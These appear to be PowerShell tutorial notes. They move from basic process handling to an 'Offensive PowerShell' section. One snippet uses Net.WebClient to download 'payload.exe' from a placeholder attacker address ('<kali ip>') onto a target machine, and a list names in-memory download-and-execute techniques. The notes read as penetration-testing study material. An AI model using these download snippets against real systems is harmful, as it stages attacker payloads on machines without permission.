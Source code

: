 ```powershell
Get-Process | Get-Member -MemberType Method
```

1. we have identified an object (in this case, a process **firefox**) we would like to manipulate in some way using the Get-Process cmdlet
2. We have determined the methods that are available For use with the objects that were returned by using: 
```powershell
Get-Process | Get-Member cmdlet and pipeline
```

3. We have decided that the Kill method is the method we would like to use For that process( as an example)

```powershell
Get-Process -Name "firefox" | Kill
```

> we can call the get-process along with the -Name parameter For the firefox process, and pipe the Kill method that we identified using the get-member cmdlet.
This command will kill any firefox processes.

### Creating .NET objects
As an example of creating a basic object based off of a .NET class with the "Net-Object" cmdlet, we can use the "Net.WebClient" .NET system class to download a file to a target system with the following code:

```powershell

$webclient = New-Object System.Net.WebClient
$payload_url = "https://<kali ip>/payload.exe"
$file = "C:\ProgramData\payload.exe"
$webclient.DownloadFile($payload_url, $file)

```

- explainning the code - line by line

1. We create a variable called $webclient which instantiates the System.Net.WebClient .NET class, which is used to create a web client.
2. We then create another variable $payload_url, which is the url to our payload
3. The $file variable is then used as the location to which we want to save the payload on the target system
4. And finally, we call the $webclient variable with the DownloadFile method which downloads our payload.exe to the target.



# Offensive PowerShell

## Downloading and Execution

- A summary of methods we can use For **In-Memory** execution with PowerShell 2.0:

```powershell
Net.WebClient DownloadString Method
Net.WebClient DownloadData Method
Net.WebClient OpenRead Method
.NET [Net.HttpWebRequest] class
Word.Application COM Object
Excel.Application COM Object
InternetExplorer.Application COM Object
MsXml2.ServerXmlHttp COM Object
Certutil.exe w/ -ping argument
```
